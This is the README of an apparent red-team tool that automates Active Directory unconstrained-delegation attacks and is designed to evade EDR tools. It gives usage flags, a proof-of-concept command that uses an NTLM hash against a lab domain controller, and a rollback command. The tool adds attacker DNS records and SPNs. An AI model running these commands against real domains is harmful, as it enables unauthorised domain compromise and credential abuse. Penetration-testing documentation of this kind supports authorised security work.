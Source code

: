 # Invoke-Unconstrained  
The Invoke-Unconstrained tool automates the exploitation of a compromised machine with unconstrained delegation.

The idea of this tool is to fully automate the exploitation of unconstrained delegation without relying on domain joined machines in order to avoid EDRs or XDRs.  
Several ways can be used to accomplish this task, but they have many steps and are complicated to understand, so the purpose of that tool is to automate the whole steps to compromise a machine using unconstrained delegation issue.  
Additionally, a snapshot of the old state is created to revert changes after the exploitation process.  
This Invoke-Unconstrained tool is based on the `impacket` library which allows attacker to launch that tool from linux-based OS, and also support the same default authentication methods as configured on the impacket library.

### How to Use  
The tool supports multiple authentication methods, including plain-text passwords, NTLM hashes, and Kerberos tickets.


#### General Arguments:  
`-u` - Specify username (The domain should be provided with a backslash, e.g., `LAB\DEG$`).  
`-t` - Specify Vunlerable target.  
`-ah` - Specify a non-exists DNS record that will be point to the attacker-controlled IP Address.  
`-aip` - Specify the controlled attacker IP address that will be added under the attacker's DNS record. 
`-p` - Specify plaintext/NTLM password matched to the username.  
`-k` - Force Kerberos authentication.

Sucessfull output will look as follows:  

The following proof of concept illustrates performing unconstrained delegation attack using NTLM hash using the DEG machine account on the lab domain:  
During the automation process, the tool creates a new DNS record controlled by the attacker (`ATT28.labs.local` -> `10.0.0.12`) to the domain controller (`10.0.0.5`).  
This automation involves LDAP authentication, afterwards, the tool adds new SPNs according to the newly-created DNS record (the `ATT28` attacker host which was added to the `msds-additionaldnshostname` attribute of the `DEG$` machine account).

  
```
Invoke-unconstrained.py -u LABS\DEG$ -p aad3b435b51404eeaad3b435b51404ee:fd8d7a6f868dc2d81aaf3eb3a9ea6adc -t DEG$ -ah ATT28.labs.local -aip 10.0.0.12  10.0.0.5
```
![image](https://github.com/ScorpionesLabs/Invoke-Unconstrained/assets/50461376/a16d91e3-ac86-483e-a8fc-f94c0bfc84f4)

#### Reverting Changes:
Among red teams, we believe that the cleanup process is required after an attack. This feature will roll back all changes to the way they were before the attack.  

The following example shows how to rollback changes that performed on the victim user to the original state.
```
Invoke-unconstrained.py -u LABS\DEG$ -p aad3b435b51404eeaad3b435b51404ee:fd8d7a6f868dc2d81aaf3eb3a9ea6adc -r .\DEG-2023-10-17--18-20-42.961041 10.0.0.5
```

As can be seen above, on each exploitation, a state file is created which shows that changes made that needs to reverted, including target, SPNs, and DNS records added.  

#### Full Exploitation: 


### Credits

1. Omri Baso From [Scorpiones Labs](https://www.scorpiones.io/).  
2. Some of the code snippets were taken from the [krbrelayx](https://github.com/dirkjanm/krbrelayx/tree/master) Project.  
